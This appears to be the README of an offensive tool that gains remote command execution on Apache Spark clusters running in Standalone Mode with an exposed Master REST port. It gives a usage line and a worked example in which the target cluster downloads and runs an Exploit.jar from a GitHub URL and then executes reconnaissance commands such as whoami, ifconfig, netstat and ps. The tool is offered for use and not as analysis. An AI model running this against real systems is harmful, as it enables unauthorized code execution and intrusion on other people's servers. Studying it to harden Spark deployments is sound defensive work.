



# Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```

### Result






Good Luck!




